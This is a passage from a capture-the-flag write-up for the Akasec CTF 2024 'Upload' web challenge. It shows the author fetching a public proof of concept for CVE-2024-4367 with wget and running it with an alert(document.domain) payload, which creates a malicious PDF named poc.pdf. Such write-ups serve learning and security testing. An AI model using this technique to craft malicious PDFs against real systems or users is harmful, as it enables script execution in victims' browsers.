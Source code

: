 ## Exploitation

Let's search for public exploit, like PoC (Proof-of-Concept)!

By Googling the CVE ID, we can find [this PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC):

![](https://github.com/siunam321/CTF-Writeups/blob/main/Akasec-CTF-2024/images/Pasted%20image%2020240610133826.png)

**Let's download the PoC Python script!**
```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:42:30(HKT)]
└> wget https://raw.githubusercontent.com/LOURC0D3/CVE-2024-4367-PoC/main/CVE-2024-4367.py
[...]
```

**In that GitHub repository, the PoC usage is like this:**
```bash
python3 CVE-2024-4367.py "alert(document.domain)"
```

**Let's try to popup an alert box!**
```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:43:47(HKT)]
└> python3 CVE-2024-4367.py "alert(document.domain)"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:43:54(HKT)]
└> file poc.pdf          
poc.pdf: PDF document, version 1.4, 1 page(s)
```
